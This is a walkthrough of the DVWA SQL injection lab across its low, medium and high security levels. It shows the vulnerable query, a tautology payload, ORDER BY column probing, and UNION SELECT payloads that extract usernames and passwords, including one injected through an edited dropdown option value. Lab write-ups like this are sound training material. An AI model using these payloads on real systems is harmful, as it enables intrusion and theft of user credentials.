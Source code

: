 # SQL Injection

> #### Objective
>
> There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

##

## Security Level: Low

> The SQL query uses RAW input that is directly controlled by the attacker. All they need to-do is escape the query and then they are able to execute any SQL query they wish. Spoiler: ?id=a' UNION SELECT "text1","text2";-- -\&Submit=Submit.&#x20;

<figure><img src="../.gitbook/assets/1 (42).png" alt=""><figcaption></figcaption></figure>

* We can provide a user ID `1` to the application.&#x20;

<figure><img src="../.gitbook/assets/2 (39).png" alt=""><figcaption></figcaption></figure>

* So the user input is inserted in the following query:

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

* Let's check the source code to see how the application behaves.

<figure><img src="../.gitbook/assets/3 (36).png" alt=""><figcaption></figcaption></figure>

* As we can see, the user input is not sanitized in any way. This is what leaves an application vulnerable to SQLi.
* Let's provide the following input:

```
1' OR '1'='1
```

* Our input causes the application to create the following query:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

* As 1 is always equal to 1, all the users first and last name will be output to the page regardless of whether their id is 1 or not.

<figure><img src="../.gitbook/assets/4 (34).png" alt=""><figcaption></figcaption></figure>

* Our job in not done though, we need to find the passwords for the users using a `UNION` attack.
* For a `UNION` query to work, two key requirements must be met:
  1. The individual queries must return the same number of columns.
  2. The data types in each column must be compatible between the individual queries.
* We can find the number of columns using the following queries provided by Portswigger one by one:

```
' ORDER BY 1#
' ORDER BY 2# 
' ORDER BY 3#
```

* We will be able to notice that the first two queries do not return any result but the third query returns a blank screen.
* This means that there are two columns in the current table.
* Let's create our final payload:

```
' UNION SELECT user, password FROM users#
```

<figure><img src="../.gitbook/assets/5 (34).png" alt=""><figcaption></figcaption></figure>

##

## Security Level: Medium

> The medium level uses a form of SQL injection protection, with the function of "[mysql\_real\_escape\_string()](https://secure.php.net/manual/en/function.mysql-real-escape-string.php)". However due to the SQL query not having quotes around the parameter, this will not fully protect the query from being altered. The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form. Spoiler: ?id=a UNION SELECT 1,2;-- -\&Submit=Submit.

<figure><img src="../.gitbook/assets/6 (34).png" alt=""><figcaption></figcaption></figure>

* Let's first check the source code.

<figure><img src="../.gitbook/assets/7 (30).png" alt=""><figcaption></figcaption></figure>

* In this level our input is not inserted into quotes.
* We can inspect the code for more information.&#x20;

<figure><img src="../.gitbook/assets/8 (23).png" alt=""><figcaption></figcaption></figure>

* Let's change the `<option>` tag to the following value:

```
<option value="1 OR 1=1">1 OR 1=1</option>
```

<figure><img src="../.gitbook/assets/9 (17).png" alt=""><figcaption></figcaption></figure>

* In order to retrieve the passwords, we can set the `<option>` tag to the following value:

```
<option value="1 UNION SELECT user, password FROM users#">1 UNION SELECT user, password FROM users#</option>
```

<figure><img src="../.gitbook/assets/10 (14).png" alt=""><figcaption></figcaption></figure>

##

## Security Level: High

> This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request. Spoiler: ID: a' UNION SELECT "text1","text2";-- -\&Submit=Submit.

<figure><img src="../.gitbook/assets/11 (6).png" alt=""><figcaption></figcaption></figure>

* Let's check the source code.

<figure><img src="../.gitbook/assets/12 (3).png" alt=""><figcaption></figcaption></figure>

* The application treats our input the same way it did in the low security level.
* That means the same payload as the low security level should work in this level.

```
' UNION SELECT user, password FROM users#
```

<figure><img src="../.gitbook/assets/13 (5).png" alt=""><figcaption></figcaption></figure>
